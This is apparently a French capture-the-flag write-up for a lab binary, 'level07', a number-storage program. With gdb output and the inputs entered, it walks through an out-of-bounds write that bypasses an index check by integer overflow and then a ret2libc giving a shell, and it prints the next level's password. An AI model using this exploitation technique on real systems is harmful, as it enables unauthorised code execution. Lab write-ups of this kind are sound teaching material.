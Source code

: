 # Level07

```shell
$ ./level07
----------------------------------------------------
  Welcome to wil\'s crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 1
 Index: 2
 Completed store command successfully
Input command: read
 Index: 2
 Number at data[2] is 1
 Completed read command successfully
Input command: quit
```

On cherche à écrire par dessus l'eip du main car la commande `store` est très peu protegée dans l'executable `level07`

On va donc chercher la distance entre le début du tableau et l'eip

```shell
$ gdb level07 -q
Reading symbols from /home/users/level07/level07...(no debugging symbols found)...done.

(gdb) b *main+15
Breakpoint 1 at 0x8048732

(gdb) run
Starting program: /home/users/level07/level07

Breakpoint 1, 0x08048732 in main ()

(gdb) print ($ebp + 0x4) - ($esp + 0x24)
$4 = 456

(gdb) print 456 / 4
$5 = 114
```

456 octets les séparent, soit `index = 114` vu que c'est un tableau d'`int`. Or `114 % 3 = 0` donc nous devons contourner cette protection dans la fonction `store`.

```python
dist_octet = 456
loop_it = 0xffff_ffff + 1

dist_octet + loop_it = 4_294_967_752
4_294_967_752 >> 2 = 1_073_741_938

# index: 114 <=> 1073741938
```

Nous allons faire un ret2libc. On va aller cherche l'adresse de `system` et de `bin/sh`

```shell
$ gdb level07 -q
Reading symbols from /home/users/level07/level07...(no debugging symbols found)...done.

(gdb) b *main
Breakpoint 1 at 0x8048723

(gdb) run
Starting program: /home/users/level07/level07

Breakpoint 1, 0x08048723 in main ()

(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>

(gdb) find __libc_start_main,+99999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
```

- <code>AdresseSystem: 0xf7e6aed0 <=> 4159090384</code>
- <code>AdresseBinSH: 0xf7f897ec <=> 4160264172</code>

On a plus qu'a essayer

```shell
level07:$ ./level07
----------------------------------------------------
  Welcome to wil\'s crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```
